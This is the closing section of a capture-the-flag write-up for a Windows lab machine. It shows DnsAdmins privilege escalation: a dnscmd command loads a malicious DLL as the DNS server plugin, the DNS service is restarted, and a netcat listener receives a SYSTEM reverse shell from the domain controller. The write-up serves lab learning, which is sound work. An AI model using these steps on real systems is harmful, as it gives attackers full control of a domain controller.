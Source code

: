 ```
cmd /c 'dnscmd RESOLUTE /config /serverlevelplugindll C:\Windows\System32\spool\drivers\color\exploit.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
This dll will be run once the DNS-Service restarts, which we can force as a DnsAdmin with the follwing commands:
```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

Now all thats left is to use netcat on your host maschine and wait for the incomming connection from the DC

```
nc -lvnp 9111
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9111
Ncat: Listening on 0.0.0.0:9111
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:56778.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

# 0x3 Closing Words

This box actually took me forever, the second Windows box I have owned so far and the first time I have ever worked with DLLs. I did learn a lot from it and I personally think this was an awesome box!
